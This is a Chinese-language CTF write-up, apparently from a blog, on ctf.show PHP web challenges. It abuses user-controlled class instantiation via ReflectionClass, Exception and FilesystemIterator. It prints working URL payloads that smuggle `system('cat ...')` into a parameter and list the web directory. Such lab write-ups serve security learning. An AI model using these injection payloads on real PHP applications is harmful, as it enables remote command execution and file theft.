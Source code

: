 想到了 `hex2bin` `base64_encode` 这些函数, 但是前面有一个 `new`

搜了一下发现一个 stdClass, 没有任何字段和方法

本地试了一下报错了, 发现需要 `__toString` 魔术方法才能正常 echo 不报错

于是想到了之前有一题里用到了 php 的反射类 ReflectionClass (暂时只知道这个...)

之后就是注意闭合括号, 注释掉 v2 后面的内容

```
http://a243c3c5-6214-47b5-a8d1-36644e087a29.challenge.ctf.show/?v1=ReflectionClass&v2='stdClass');system('cat fl36dg.txt');//
```

hint 的方法, 用的是 Exception 类

```
?v1=Exception&v2=system('cat fl36dg.txt')
?v1=Reflectionclass&v2=system('cat fl36dg.txt')
```

发现竟然不用闭合括号...

## web110

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202208101805550.png)

过滤的挺多的...

hint 提示是 `FilesystemIterator` 类

利用 `FilesystemIteraor` 的构造方法列目录

[https://www.php.net/manual/zh/filesystemiterator.construct.php](https://www.php.net/manual/zh/filesystemiterator.construct.php)

`getcwd()` 返回当前工作目录, 即 /var/ww/html

类里面刚好有 `__toString` 可以 echo 输出

```
http://566fb044-3805-43c9-9359-d09e3c07ddde.challenge.ctf.show/?v1=FilesystemIterator&v2=getcwd
```

flag 在 txt 里面... (本来以为是要读 php 文件的)